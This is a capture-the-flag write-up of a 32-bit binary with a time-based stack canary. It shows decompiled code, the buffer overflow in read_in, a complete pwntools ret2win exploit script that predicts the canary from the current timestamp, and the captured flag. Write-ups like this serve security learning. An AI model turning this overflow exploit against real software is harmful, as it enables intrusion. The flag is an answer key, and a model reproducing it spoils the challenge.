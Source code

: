 The first thing I do to this file s to run the file and checksec commands to see what basic protection it has.  it is in 32 bit with  PIE disabled but it has NX. It also says it has no stack canary so the canary must be added at the runtime of the program.

I then run it in ghidra
```
  local_14 = popen("date +%s","r");
  if (local_14 == (FILE *)0x0) {
    puts("Failed to run command");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_20,12,local_14);
  pclose(local_14);
  global = strtol(local_20,(char **)0x0,10);
```
I can see from this snippet of code that it opens a file and get the UNIX timestamp, it then stores it and then turns it into a long and sets global equal to it. It then runs the readin() function with global as its parameter.

```
void read_in(int param_1)

{
  undefined1 local_58 [72];
  int local_10;
  
  local_10 = param_1;
  read(0,local_58,140);
  if (local_10 != global) {
    puts("****Stack Smashing Detected!!!****\nExiting now.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return;
}
```
Inside of readin() there is a read that allows for a buffer overflow! But then it checks the canary that is that global variable from before.

From there it is a normal ret2win with a canary but the I imported the time library so that I could also get the current timestamp for the canary value. When running remotely sometimes the time would have a slight discrepancy. I solved this by sending it in a loop and adjusting an offset from the original time.

```python
#!/usr/bin/env python3 
import subprocess
import time
from pwn import *

binary_path = './canary' # exe
libc_path = ''
remote_host = 'www.cweaccessionsctf.com'
remote_port = 1315  # <-- Needs to be a valid integer if using REMOTE

context.binary = binary_path
#context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary
#libc = ELF(libc_path)
rop = ROP(elf)
#libc = ELF(libc_path)

if args.GDB:
    p = gdb.debug(binary_path, gdbscript='b *read_in+38')
elif args.REMOTE:
    p = remote(remote_host, remote_port)
else:
    p = process(binary_path)

def main():
    win = 0x080491f6

    canary = int(time.time()) + 2
    print(canary)

    payload = b''
    payload += b'A' * 72
    payload += p32(canary)
    payload += b'B' * 12
    payload += p32(win)

    p.sendline(payload)

    time.sleep(0.15)

    p.interactive()

if __name__ == '__main__':
    
    main()

```

CWE{fly_away_little_canary_TZ4gELYH}
<!--stackedit_data:
eyJoaXN0b3J5IjpbNTA0MTQ4NDA2XX0=
-->